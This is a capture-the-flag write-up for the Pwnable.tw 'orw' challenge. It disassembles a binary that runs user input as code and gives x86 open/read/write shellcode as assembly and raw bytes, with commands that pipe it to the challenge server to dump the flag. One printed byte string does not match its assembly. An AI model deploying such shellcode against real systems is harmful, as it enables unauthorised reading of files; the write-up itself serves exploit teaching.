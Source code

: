 ```yaml
---
layout: single_c
title:  "Pwnable.tw Level 2 - Orw"
date:   2019-08-16 1:00:16 +0530
categories: Pwnable.tw
tags: ctf
classes: wide
--- 
```

### [Pwnable.tw Level 2 - Orw](https://pwnable.tw/challenge/#2)  

## Challenge
```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.

nc chall.pwnable.tw 10001
```
## Static Analysis
Lets check the file properties using `file` and `checksec`
```bash
user@ctf:~/Downloads$ file orw
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2,  
for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped

user@ctf:~/Downloads$ ./checksec.sh --file orw
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   orw
```
Let decompile using `gdb`
```bash
gdb-peda$ info functions 
All defined functions:

Non-debugging symbols:
0x08048330  _init
0x08048370  read@plt
0x08048380  printf@plt
0x08048390  __stack_chk_fail@plt
0x080483a0  __libc_start_main@plt
0x080483b0  prctl@plt
0x080483d0  _start
0x08048400  __x86.get_pc_thunk.bx
0x08048410  deregister_tm_clones
0x08048440  register_tm_clones
0x08048480  __do_global_dtors_aux
0x080484a0  frame_dummy
0x080484cb  orw_seccomp
0x08048548  main
0x080485a0  __libc_csu_init
0x08048600  __libc_csu_fini
0x08048604  _fini
```
Lets look at main function
```bash
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x08048548 <+0>:	lea    ecx,[esp+0x4]
   0x0804854c <+4>:	and    esp,0xfffffff0
   0x0804854f <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048552 <+10>:	push   ebp
   0x08048553 <+11>:	mov    ebp,esp
   0x08048555 <+13>:	push   ecx
   0x08048556 <+14>:	sub    esp,0x4
   0x08048559 <+17>:	call   0x80484cb <orw_seccomp>
   0x0804855e <+22>:	sub    esp,0xc
   0x08048561 <+25>:	push   0x80486a0
   0x08048566 <+30>:	call   0x8048380 <printf@plt>
   0x0804856b <+35>:	add    esp,0x10
   0x0804856e <+38>:	sub    esp,0x4
   0x08048571 <+41>:	push   0xc8
   0x08048576 <+46>:	push   0x804a060
   0x0804857b <+51>:	push   0x0
   0x0804857d <+53>:	call   0x8048370 <read@plt>
   0x08048582 <+58>:	add    esp,0x10
   0x08048585 <+61>:	mov    eax,0x804a060
   0x0804858a <+66>:	call   eax
   0x0804858c <+68>:	mov    eax,0x0
   0x08048591 <+73>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048594 <+76>:	leave  
   0x08048595 <+77>:	lea    esp,[ecx-0x4]
   0x08048598 <+80>:	ret    
End of assembler dump.
```

At position `0x08048576` the value `0x804a060` is pushed into the `stack` and then value read from the user is stored at this location and then it is called.

lets set a break point and check 
```bash
gdb-peda$ break *0x0804858a
Breakpoint 1, 0x0804858a in main ()
gdb-peda$ x/2i $eip
=> 0x804858a <main+66>:	call   eax
   0x804858c <main+68>:	mov    eax,0x0
gdb-peda$ print $eax
$1 = 0x804a060
gdb-peda$ x/s $eax
0x804a060 <shellcode>:	"AAAABBBB\n" 
```
So it executes any shellcode we input. So we can simply write any shell code.
Its seems to be too easy and I don't see any limits to the length of shell code either  
My first thought was to pop a shell. But syscalls seems to be limited to `open` `read` and `write`
After trying various unnecessarily complicated shellcodes I got a simple idea  
We can just `open` the flag file then `read` from it and then `write` its contents to standard output  

I used this website for writing the shell code https://defuse.ca/online-x86-assembler.htm

Shell code
```bash
mov eax,5
push 0
push 0x67616c66
push 0x2f2f2f77
push 0x726f2f65
push 0x6d6f682f
mov ebx,esp
xor ecx,ecx
xor edx,edx
int 0x80;; fd = open("/home/orw/flag", 0_RDONLY, 0)

push eax
pop ebx
mov eax,3
mov ecx,0x0804a060
sub ecx,40
mov edx,40
int 0x80;; read(fd, obj.shellcode-40, 40)

mov eax,4
mov ebx,1
mov ecx,0x0804a060
sub ecx,40
mov edx,40
int 0x80;; write(stdout, obj.shellcode-40, 40)


String Literal:

"\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x77\x2F\x2F\x2F\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3  
\x31\xC9\x31\xD2\xCD\x80\x50\x5B\xB8\x03\x00\x00\x00\xB9\x60\xA0\x04\x08\x81\xC1\xA0\x00\x00\x00\xBA\x28\x00\x00\x00  
\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x60\xA0\x04\x08\x81\xC1\xA0\x00\x00\x00\xBA\x28\x00\x00\x00\xCD\x80"  

```
The shellcode is the simplest one I could think of. Its not the most efficient or shortest method but it will work    
The shellcode first `opens` the file `/home/orw/flag`  
Then it `reads` from the file using the file `descriptor` returned form `open` to a `40bytes` buffer above shell code  
Then we `write` the output to standard output

Lets try it on local system first and then on the server
```bash
user@ctf:~/Downloads$ python -c 'print "\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x77\x2F\x2F\x2F\x68  
\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x50\x5B\xB8\x03\x00\x00\x00\xB9\x60\xA0\x04  
\x08\x83\xE9\x28\xBA\x28\x00\x00\x00\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x60\xA0\x04\x08\x83\xE9  
\x28\xBA\x28\x00\x00\x00\xCD\x80"' | ./orw
Give my your shellcode:hey there you in flag
Segmentation fault (core dumped)
```
And there we have it. Let's run it on the server
```bash
user@ctf:~/Downloads$ python -c 'print "\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x77\x2F\x2F\x2F\x68  
\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x50\x5B\xB8\x03\x00\x00\x00\xB9\x60\xA0\x04  
\x08\x83\xE9\x28\xBA\x28\x00\x00\x00\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x60\xA0\x04\x08\x83\xE9  
\x28\xBA\x28\x00\x00\x00\xCD\x80"' | nc chall.pwnable.tw 10001
Give my your shellcode:FLAG{xxxxxxxxxxx}
```
### Solved!

